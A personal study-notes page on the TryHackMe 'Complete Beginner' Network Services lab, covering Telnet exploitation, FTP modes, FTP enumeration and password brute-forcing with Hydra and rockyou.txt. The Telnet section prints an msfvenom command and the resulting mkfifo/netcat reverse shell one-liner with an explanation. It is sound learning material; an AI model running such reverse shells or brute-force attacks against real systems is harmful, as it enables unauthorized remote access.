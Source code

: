 # TryHackMe: Complete Beginner

**author**:: Nathan Acks  
**date**:: 2021-10-02

## Network Services

### Exploiting Telnet

```bash
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE

# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
	lport=$LOCAL_PORT R

# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```bash
mkfifo /tmp/qdsrgu; \
	nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
	/bin/sh >/tmp/qdsrgu 2>&1; \
	rm /tmp/qdsrgu
```

($LOCAL_IP and $LOCAL_PORT aren't literal - they're *actually* the local IP address of my machine on TryHackMe's VPN and my chosen port. Neither of which should be particularly sensitive, but I'm still not going to post it on the internet!)

What's going on here?

* `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
* We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat's STDIN (`0< /tmp/qdsrgu`), pipe the *output* of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect *both* STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
* On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh *there*. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

### Understanding FTP

The active vs. passive FTP distinction is about how the *server* handles establishing the data channel (the command channel is always set up by the client connecting to the server).

Active FTP: The client opens a port which the server *actively* connects to when establishing the data channel.

Passive FTP: The server opens a port which the client connects to when establishing the data channel.

* [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

### Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap's -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

* [Solaris 2.6/7.0 - IN.FTPD CWD 'Username' Enumeration](https://www.exploit-db.com/exploits/20745)

### Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali's rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn't previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)... And stored all of the relevant passwords (including their own) in the clear!

* [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
* [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
